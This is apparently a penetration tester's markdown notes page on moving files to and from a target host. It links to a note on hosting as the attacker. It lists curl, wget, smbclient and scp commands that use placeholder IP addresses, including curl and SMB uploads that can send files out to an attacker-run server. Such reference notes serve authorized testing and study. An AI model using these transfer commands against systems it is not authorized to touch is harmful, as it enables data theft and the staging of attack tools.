 
For a collection of methods on hosting, reference my [Hosting as the Attacker](./Hosting%20%as%the%Attacker.md) note.
### Downloading and Uploading via Common Web Tools
---
**CURL**
- Supports both downloading and uploading files.

```shell
# Download File from Web Server
curl http://<ip_addr>/<filename> -o <outfile>

# Download File from custom HTTPS Web Server
curl https://<ip_addr>/<filename> -o <outfile> -k

# Upload File to Web Server
curl -X POST -F "file=@<file_path>" http(s)://<ip_addr>/<filename>

# Upload File to custom HTTPS Web Server
curl -X POST -F "file=@<file_path>" http(s)://<ip_addr>/<filename> -k
```

**WGET**
- Supports only downloading files.

```shell
# Download File from Web Server
wget http://<ip_addr>/<filename> -O <outfile>

# Download File from custom HTTPS Web Server
wget https://<ip_addr>/<filename> -O <outfile> --no-check-certificate
```

### Downloading and Uploading via SMB
---

```shell
# Download File from Share
smbclient //<ip_addr>/share/ -N -c 'get <filename>'

# Upload File to Share
smbclient //<ip_addr>/share/ -N -c "put <filename>"
```

### Alternative Methods
---
Assuming SSH is enabled, you can use SCP.

```shell
# File Download via SCP
scp <username>@<ip_addr>:<file_path> <outfile>

# File Upload via SCP
scp <file_path> <username>@<ip_addr>:<out_path>
```
